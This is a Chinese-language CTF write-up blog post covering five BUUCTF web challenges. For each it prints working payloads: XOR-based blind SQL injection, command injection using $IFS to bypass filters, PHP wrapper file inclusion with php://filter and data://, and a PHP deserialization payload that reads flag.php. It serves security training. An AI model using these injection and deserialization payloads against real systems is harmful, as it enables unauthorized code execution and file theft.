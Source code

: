 ```yaml
---
layout: post
title: BUUCTF Web Training 0x02
data: 2020-05-20
categories: Notes
tags: 
 - BUUCTF
 - Writeup
description: 
excerpt_separator: ""
---
```


# [CISCN2019 华北赛区 Day2 Web1]Hack World

## 题目描述

一道SQL注入，直接提示了flag在"flag"表的"flag"列中。提示可以输入id。

## 解题思路

测试一下，输入`2/2`时返回与输入`1`时相同，说明是数字型注入，然后有一些过滤：union、and、or之类的，还有加减乘符号。

不过异或符号可用，那就好说了：

```
POST：id=0^(ascii(substr((select(flag)from(flag)),1,1))=102)
```

然后写脚本爆破就好。

## 备注

1. 遍历ASCII爆破速度还是太慢了，应该用二分法。

---

# [GXYCTF2019]Ping Ping Ping

## 题目描述

提示`/?ip=`，结合题目名字，很明显是RCE。

## 解题思路

一波测试，过滤了空格和引号，另外flag在flag.php里，那就读吧：

```
?ip=;cat$IFS`ls`
```

## 备注

1. \$IFS是bash的分隔符，默认为\<space>、\<tab>或\<newline>。
2. \$IFS后面不能直接拼接字符串，可以用在它们之间加一个\$1，\$1里什么都没有，起一个分隔作用。

---

# [ACTF2020 新生赛]Include

## 题目描述

你看URL，一个文件文件包含，直接用php://filter读。

---

# [ACTF2020 新生赛]Exec

## 题目描述

可以PING，又一个RCE。

## 解题思路

cat、ls命令都不可用了，不过echo和命令执行符号都可以用：

```
POST：target=;echo `cat /flag`
```

## 备注

1. 但是为什么，直接输入命令不可用，但可以通过命令执行符号调用。

---

# [ZJCTF 2019]NiZhuanSiWei

## 题目描述

直接给了源码：

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

## 解题思路

先绕\$text，很明显，用data协议：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

然后有个文件包含和反序列化，猜测可利用的类在useless.php里，那就读一下 这个文件：

```
php://filter/read=convert.base64-encode/resource=useless.php
```

内容是这样的：

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>
```

构造一下完事，Payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```



---


